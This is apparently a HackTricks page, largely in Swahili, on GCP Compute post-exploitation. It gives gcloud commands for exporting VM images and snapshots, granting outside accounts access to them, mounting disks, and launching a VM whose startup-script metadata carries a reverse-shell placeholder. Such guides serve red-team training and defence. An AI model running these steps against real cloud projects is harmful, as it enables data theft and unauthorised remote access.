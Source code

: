 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Kwa maelezo zaidi kuhusu Compute na VPC (Networking) angalia:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

Hii itamruhusu mshambuliaji **kupata data iliyomo ndani ya picha zilizopo tayari** au **kuunda picha mpya za VMs zinazofanya kazi** na kupata data zao bila kuwa na ufikiaji wa VM inayofanya kazi.

Inawezekana kusafirisha picha ya VM kwenye bucket kisha kuipakua na kuimount locally kwa amri: 

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Ili kutekeleza hatua hii, mshambuliaji anaweza kuhitaji mamlaka juu ya uhifadhi wa bucket na kwa hakika **mamlaka juu ya cloudbuild** kwani ndiyo **huduma** itakayohitajika kutekeleza usafirishaji.\
Zaidi ya hayo, ili hii ifanye kazi, SA ya codebuild na SA ya compute zinahitaji ruhusa za mamlaka.\
SA ya cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` inahitaji:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Na SA `<project-id>-compute@developer.gserviceaccount.com` inahitaji:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Usafirishaji & Ukaguzi wa Snapshots & Disks kwa ndani

Haiwezekani kusafirisha moja kwa moja snapshots na disks, lakini inawezekana **kubadilisha snapshot kuwa disk, disk kuwa picha** na kufuata **sehemu ya awali**, kusafirisha picha hiyo ili kuikagua kwa ndani.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Kagua Picha inayounda VM

Kwa lengo la kufikia **data iliyohifadhiwa katika picha** au ndani ya **VM inayotembea** kutoka mahali ambapo mshambuliaji **ameunda picha,** inawezekana kutoa akaunti ya nje ufikiaji juu ya picha:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
na kisha unda VM mpya kutoka kwake:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Ikiwa huwezi kutoa ufikiaji wa akaunti yako ya nje kupitia picha, unaweza kuzindua VM ukitumia picha hiyo katika mradi wa mwathirika na **kufanya metadata itekeleze shell ya kinyume** ili kufikia picha hiyo kwa kuongeza param:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Kwa lengo la kufikia **data iliyohifadhiwa kwenye diski au snapshot, unaweza kubadilisha snapshot kuwa diski, diski kuwa picha na kufuata hatua za awali.**

Au unaweza **kutoa akaunti ya nje ruhusa** juu ya diski (ikiwa hatua ya mwanzo ni snapshot toa ruhusa juu ya snapshot au unda diski kutoka kwake):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Unganisha diski** kwa mfano:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount the disk inside the VM:

1.  **SSH kwenye VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Tambua Disk**: Mara baada ya kuingia kwenye VM, tambua diski mpya kwa kuorodhesha vifaa vya diski. Kawaida, unaweza kuipata kama `/dev/sdb`, `/dev/sdc`, n.k.
3. **Fanya Format na Mount Disk** (ikiwa ni diski mpya au raw):
*   Unda mahali pa ku-mount:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Mount diski:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Ikiwa huwezi kutoa ufikiaji kwa mradi wa nje kwa snapshot au diski, huenda ukahitaji **kufanya hatua hizi ndani ya mfano katika mradi sawa na snapshot/diski**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
